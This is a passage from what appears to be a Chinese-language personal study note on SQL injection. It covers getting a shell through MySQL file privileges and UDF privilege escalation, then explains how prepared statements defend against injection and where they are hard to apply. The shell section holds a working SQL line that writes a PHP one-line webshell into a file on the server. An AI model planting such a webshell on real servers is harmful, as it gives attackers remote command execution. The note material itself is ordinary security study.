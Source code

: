 #### 拖库

### 拿shell

#### 写木马

主要利用mysql的file权限，对权限要求较高。<a href=" C:\Users\Administrator\Desktop\note-by-Typora\工具和软件\mysql\learnMysql\杂七杂八.md#filePermission">权限详解</a>。

##### PHP

```sql
# 最简单和直接的
select '<?php assert($_POST[less2]);?>' into outfile "路径";
```

#### udf提权

​    严格上这不属于sql注入的内容，udf提权使用的情景是得到了mysql的root权限，且目标服务器不提供web服务时使用。而且，使用udf的的前提仍需要写入文件，所以一些相应的权限也必须拥有，数据库路径等信息也需要知道。

## 第五部分 防御

### 有关预编译的讨论

​    预编译是防御sql注入最好的方法，而且随着现在各种开发框架的成熟，预编译的使用也越来越简单。不过有两种情况下是比较难以采取或者说采取起来不太方便预编译，既表名/列名/动态排序传入和in/like/regexp等模糊匹配的地方。关于注入方式，没太多可讲，这里主要是解释一下他们不能预编译的原因，和如何写预编译。

​    预编译的本质是通过占位符，明确我们所输入的就是数据，从而做到数据与数据库关键字的区分，而如之前order by注入所提到的，order by的特性限制了我们在它后面就不能写数据，而必须写字段名。这就限制了order by进行预编译。

![image-20230824235818953](.\images\image-20230824235818953.png)

​    而对于LIKE/IN等，他们的预编译写法较为特殊，这是因为预编译就相当于为占位符所在的字符加上了引号，再置于必须要加引号的"?%"之中，就会引起变为“‘admin’%”这显然达不到我们的效果，所以正确写法是利用concat拼接字符。

​    而且还要注意，模糊匹配中的那些特殊字符
